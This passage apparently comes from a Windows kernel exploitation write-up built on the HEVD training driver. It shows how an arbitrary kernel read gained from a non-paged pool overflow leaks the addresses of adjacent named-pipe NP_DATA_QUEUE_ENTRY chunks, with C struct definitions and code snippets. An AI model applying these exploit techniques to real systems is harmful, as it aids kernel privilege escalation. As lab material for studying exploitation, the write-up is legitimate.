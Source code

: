 This is a very nice arbitrary read, we are not even limited by size, we can read say 50MB of kernel memory in a single syscall if we wanted. Although at the moment, because we are on 24H2, we haven’t even broken kASLR, and don’t know many valid addresses.

An interesting thing to know would be the addresses of the “readable chunk” `NP_DATA_QUEUE_ENTRY` object. We know its contents but not address in memory. The "readable chunk" `NP_DATA_QUEUE_ENTRY` has an Flink which is a pointer to an `NP_DATA_QUEUE`, which looks like this:

```c
typedef struct _NP_DATA_QUEUE {
    LIST_ENTRY Queue;
    ULONG QueueState;
    ULONG BytesInQueue;
    ULONG EntriesInQueue;
    ULONG Quota;
    ULONG QuotaUsed;
    ULONG ByteOffset;
    u64 queueTailAddr;
    u64 queueTail;
} NP_DATA_QUEUE, *PNP_DATA_QUEUE;
```

Remember the "readable chunk" Flink points to the `NP_DATA_QUEUE` becuase there are no other entries. The first member of the `NP_DATA_QUEUE` is an Flink back to the `NP_DATA_QUEUE_ENTRY`.

So if we read the first 8 bytes of the `NP_DATA_QUEUE`, that will be a pointer to our "readable chunk" `NP_DATA_QUEUE_ENTRY`.

```c
u64 readableChunkDQEAddr = 0;
ArbitraryRead(&dqe, (PVOID)readableChunkDQE->NextEntry.Flink, 8, &readableChunkDQEAddr);
```

Because we know the "overwritten chunk" and "readable chunk" are adjacent in memory, we can calculate the address of the "overwritten chunk" too.
```c
u64 overwrittenChunkDQEAddr = (u64)readableChunkDQEAddr - sizeof(POOL_HEADER) - VULN_CHUNK_SIZE;
```

## References
- https://github.com/vportal/HEVD
- https://github.com/vp777/Windows-Non-Paged-Pool-Overflow-Exploitation
- https://github.com/ommadawn46/HEVD-BufferOverflowNonPagedPoolNx-Win10-22H2
- https://github.com/Black-Frost/windows-learning
